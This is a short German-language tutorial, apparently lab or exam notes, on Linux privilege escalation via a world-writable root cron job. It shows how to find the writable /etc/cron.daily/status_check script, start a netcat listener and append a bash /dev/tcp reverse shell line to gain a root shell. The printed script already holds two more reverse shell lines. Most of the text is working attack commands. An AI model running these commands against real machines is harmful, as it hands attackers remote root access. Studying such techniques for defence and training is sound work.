

# Beispiel für eine Privilege Escalation via Cronjobs: 
`cat /etc/crontab` -> gibt alle cronjobs aus

Output auf root cron jobs untersuchen. 
```
# /etc/crontab: system-wide crontab                                                                                    
# Unlike any other crontab you don't have to run the `crontab'                                                         
# command to install the new version when you edit this file                                                           
# and files in /etc/cron.d. These files also have username fields,                                                     
# that none of the other crontabs do.                                                                                  
                                                                                                                       
SHELL=/bin/sh                                                                                                          
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin                                                      
                                                                                                                       
# Example of job definition:                                                                                           
# .---------------- minute (0 - 59)                                                                                    
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
*/1 *    * * *   root    /etc/cron.daily/status_check
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```


Rechte für cron Job Files, die über root laufen überprüfen. Indem man folgenden Befehl darauf ausführt: z.B. `ls -la /etc/cron.daily/`

Output:
```
total 48
drwxr-xr-x 1 root root 4096 Sep 20  2019 .
drwxr-xr-x 1 root root 4096 Nov 29 10:20 ..
-rw-r--r-- 1 root root  102 Jun 23  2019 .placeholder
-rwxr-xr-x 1 root root  539 Apr  2  2019 apache2
-rwxr-xr-x 1 root root 1478 May 28  2019 apt-compat
-rwxr-xr-x 1 root root 1187 Apr 19  2019 dpkg
-rwxr-xr-x 1 root root 4128 Sep  3  2019 exim4-base
-rwxr-xr-x 1 root root  377 Aug 28  2018 logrotate
-rwxr-xr-x 1 root root  249 Sep 27  2017 passwd
-rwxrwxrwx 1 root root  171 Dec  4 12:14 status_check
-rwxr-xr-x 1 root root  538 Mar 31  2019 tomcat9
```

Output überprüfen, ob wir Rechte auf die cron job file (mit root rechten) haben. Hier ist es die Datei  `/etc/cron.daily/status_check` 

Ausgeben des Inhalts der Cron Job File mit:  `cat /etc/cron.daily/status_check`

Output: 
```
#!/bin/bash
/bin/bash -i >& /dev/tcp/172.16.155.9/4444 0>&1
service ssh status
service apache2 status
service vsftpd status
/bin/bash -i >& /dev/tcp/172.16.144.6/443 0>&1
```


Reversshell generieren mit https://www.revshells.com/
Listener (dein Rechner)
z.B. mit:

`nc -lvnp 443`

Cronjob Datei um reverseshell Skript erweitern. Z.B. wie folgt: 
">> = datei um string erweitern"
```
echo "/bin/bash -i >& /dev/tcp/172.16.155.4/443 0>&1" >> /etc/cron.daily/status_check
```


Reverse shell wurde erfolgreich erstellt. 

